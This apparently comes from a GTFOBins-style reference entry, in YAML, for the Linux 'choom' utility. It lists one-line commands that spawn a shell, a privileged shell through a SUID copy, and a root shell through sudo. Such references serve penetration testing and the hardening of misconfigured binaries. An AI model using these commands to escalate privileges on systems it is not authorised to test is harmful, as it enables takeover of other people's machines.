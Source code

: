   shell:
    - code: choom -n 0 /bin/sh
  suid:
    - code: ./choom -n 0 -- /bin/sh -p
  sudo:
    - code: sudo choom -n 0 /bin/sh
---
